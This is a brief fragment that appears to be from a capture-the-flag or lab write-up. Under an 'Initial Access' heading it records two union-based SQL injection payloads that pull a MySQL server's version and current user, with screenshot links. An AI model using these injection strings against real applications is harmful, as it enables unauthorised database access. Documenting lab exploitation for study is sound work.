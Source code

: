 # Initial Access


## Shell as joeyt, chandlerb, janitor


### SQLI

DBMS info : `Mysql`

```sql
' union all select 1,2,3,4,5.6,@@version; -- -
```

![](/assets/obsidian/c6e739fddb590016ae21f3f955e95ac0.png)

User : `dbuser@localhost`

```sql
' union all select 1,2,3,4,5.6,user(); -- -
```

![](/assets/obsidian/80342cb3b032a12fad5bd1e6854a3c0f.png)
